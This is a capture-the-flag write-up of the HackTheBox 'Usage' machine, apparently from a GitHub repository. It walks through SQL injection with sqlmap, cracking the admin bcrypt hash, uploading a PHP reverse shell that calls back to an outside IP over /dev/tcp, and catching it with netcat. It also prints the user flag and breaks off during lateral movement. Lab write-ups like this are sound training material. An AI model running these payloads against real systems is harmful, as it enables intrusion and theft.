










# Usage
## Enumeration
### Port Scanning
The system got two open ports, 22 (ssh) and 80 (http):
```
┌──(kali㉿kali)-[~]
└─$ nmap $IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 07:17 EDT
Nmap scan report for 10.10.11.18
Host is up (0.097s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 3.44 seconds

┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV $IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 07:17 EDT
Nmap scan report for 10.10.11.18
Host is up (0.097s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.85 seconds

┌──(kali㉿kali)-[~]
└─$ 
```

### HTTP
The http server responses with a login interface:


There is also a register and an admin login interface.

If we register a user and login, we find a dashboard like a blog:


But there seems to be nothing interesting.

A quick look into the cookies reveals the following two:
```
XSRF-TOKEN
laravel_session
```

So the web server uses a Laravel PHP server. But I wasn't able to determine the version to check for existing exploits.

Since the only possibility to input some data to website are login fields, I checked them for SQL-Injections. And in the `/forget-password` section I got something. If we inject code like `'` or `' or 1=1;`, we get a server error:


An input like `' or 1=1; #` gives a valid response on the website:


Other inputs with different comment characters create the server error. So it's pretty likely a MySQL database behind the application.

## SQLi
With the gained information of the SQLi vulnerability, we can try to exploit this with tools like `sqlmap`.

`sqlmap` takes some time in the process of exploitation. To speed things a bit up and to be sure that the cookie expiration doesn't hit, we can save the request that we would like to use, with Burp. For that, we intercept a valid request of a password reset (for an existing user) and right-click the request and choose _Save item_. That saved request can be used with `sqlmap` to explore the injection.

First, we should try to get the available databases itself:
```
sqlmap -r forget-pass.req -p "email" --dbms mysql --level 5 --risk 3 --batch --dbs
```
* `-r forget-pass.req` - the saved Burp request
* `-p "email"` - the vulnerable parameter
* `--dbms mysql` - the database system, that we already detected
* `--level 5 --risk 3` - using the highest and riskiest tests
* `--batch` - skip user interactions (uses the defaults)
* `--dbs` - get databases

As response, we find the following databases:
```
[*] information_schema
[*] performance_schema
[*] usage_blog
```
_The full output of `sqlmap` can be found [here](./logs/output_sqlmap_dbs.txt)_

The database `usage_blog` sounds interesting. If we adjust the command, we can examine the tables of the database:
```
sqlmap -r forget-pass.req -p "email" --dbms mysql --level 5 --risk 3 --batch -D usage_blog --tables
```
* `-D usage_blog` - the database to use
* `--tables` - get tables of the database

_The output can be found [here](./logs/output_sqlmap_tables.txt)._

We got the following tables:
```
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+
```

Let's check out the table `admin_users` further:
```
sqlmap -r forget-pass.req -p "email" --dbms mysql --level 5 --risk 3 --batch -D usage_blog -T admin_users --dump
```
* `-T admin_users` - the table to use
* `--dump` - dump all contents of the table

We find some credentials of the user `admin` (see [here](./logs/output_sqlmap_admin_users.txt) for full output):
```
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| id | name          | avatar  | password                                                     | username | created_at          | updated_at          | remember_token                                               |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| 1  | Administrator | <blank> | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 | admin    | 2023-08-13 02:48:26 | 2024-07-02 13:02:21 | kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
```

## Admin login
The password hash can easily be cracked:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/usage]
└─$ cat admin_hash 
$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2

┌──(kali㉿kali)-[~/Desktop/hackthebox/usage]
└─$ john --wordlist=/home/kali/Desktop/tools/rockyou.txt admin_hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
whatever1        (?)     
1g 0:00:00:20 DONE (2024-07-02 10:03) 0.04880g/s 78.18p/s 78.18c/s 78.18C/s danilo..blahblah
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

┌──(kali㉿kali)-[~/Desktop/hackthebox/usage]
└─$ 
```

With those credentials we can log into the admin interface:


### Reverse shell
Exploring the interface a bit, we can find the ability to upload an image for our user:


My first guess was to upload an arbitrary file in here. So I created a php reverse shell:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/usage]
└─$ cat exploit.php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.91/8081 0>&1'");
?>

┌──(kali㉿kali)-[~/Desktop/hackthebox/usage]
└─$ 
```

And tried to upload it. But I got the following error message:


But the error isn't in the http response, it's create by the upload interface. So I renamed the file to `exploit.jpg` and intercepted the upload with Burp. Here I manipulated the request back to the original filename:


Sending that request was successful:


In different test with uploaded `.jpg` files, I managed to find out the path of the uploaded files. We can right-click the image in the browser and view in a separated tab. Here I got the path:


So to run the exploit, we can access the file under `/uploads/images/exploit.php`. The only thing that we have to now, is to catch the shell:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/usage]
└─$ nc -lvnp 8081          
Listening on 0.0.0.0 8081
Connection received on 10.10.11.18 42778
bash: cannot set terminal process group (1244): Inappropriate ioctl for device
bash: no job control in this shell
dash@usage:/var/www/html/project_admin/public/uploads/images$ id
id
uid=1000(dash) gid=1000(dash) groups=1000(dash)
dash@usage:/var/www/html/project_admin/public/uploads/images$ 
```

We can stabilize it as well:
```
dash@usage:/var/www/html/project_admin/public/uploads/images$ python3 --version
<ject_admin/public/uploads/images$ python3 --version          
Python 3.10.12
dash@usage:/var/www/html/project_admin/public/uploads/images$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<es$ python3 -c 'import pty; pty.spawn("/bin/bash")'          
dash@usage:/var/www/html/project_admin/public/uploads/images$ ^Z
zsh: suspended  nc -lvnp 8081

┌──(kali㉿kali)-[~/Desktop/hackthebox/usage]
└─$ stty size
81 156

┌──(kali㉿kali)-[~/Desktop/hackthebox/usage]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 8081

dash@usage:/var/www/html/project_admin/public/uploads/images$ 
<n/public/uploads/images$ export TERM=xterm-256color          
ns 156sage:/var/www/html/project_admin/public/uploads/images$ stty rows 81 colum 
dash@usage:/var/www/html/project_admin/public/uploads/images$ 
```

## System enumeration
There is another user called `xander` on the system:
```
dash@usage:~$ grep "/bin/bash" /etc/passwd
root:x:0:0:root:/root:/bin/bash
dash:x:1000:1000:dash:/home/dash:/bin/bash
xander:x:1001:1001::/home/xander:/bin/bash
dash@usage:~$ 
```
So probably we need to find a way to become this user.

### User flag
With the shell, we can grab the user flag in the home directory of the user `dash`:
```
dash@usage:~$ ls -al 
total 48
drwxr-x--- 6 dash dash 4096 Jul  2 15:49 .
drwxr-xr-x 4 root root 4096 Aug 16  2023 ..
lrwxrwxrwx 1 root root    9 Apr  2 20:22 .bash_history -> /dev/null
-rw-r--r-- 1 dash dash 3771 Jan  6  2022 .bashrc
drwx------ 3 dash dash 4096 Aug  7  2023 .cache
drwxrwxr-x 4 dash dash 4096 Aug 20  2023 .config
drwxrwxr-x 3 dash dash 4096 Aug  7  2023 .local
-rw-r--r-- 1 dash dash   32 Oct 26  2023 .monit.id
-rw------- 1 dash dash 1192 Jul  2 15:49 .monit.state
-rwx------ 1 dash dash  707 Oct 26  2023 .monitrc
-rw-r--r-- 1 dash dash  807 Jan  6  2022 .profile
drwx------ 2 dash dash 4096 Aug 24  2023 .ssh
-rw-r----- 1 root dash   33 Jul  2 14:05 user.txt
dash@usage:~$ cat user.txt
8ba97f33f2b7ef5c88903ab4c262b16c
dash@usage:~$ 
```

### Lateral movement
We can also find some files of _Monit_ in the user directory. It's a program for managing and monitoring processes, programs, files, directories and filesystems on a UNIX system.

The main file `.monitrc` reveals the following content:
```
dash@usage:~$ ls -al 
total 48
drwxr-x--- 6 dash dash 4096 Jul  2 15:49 .
drwxr-xr-x 4 root root 4096 Aug 16  2023 ..
lrwxrwxrwx 1 root root    9 Apr  2 20:22 .bash_history -> /dev/null
-rw-r--r-- 1 dash dash 3771 Jan  6  2022 .bashrc
drwx------ 3 dash dash 4096 Aug  7  2023 .cache
drwxrwxr-x 4 dash dash 4096 Aug 20  2023 .config
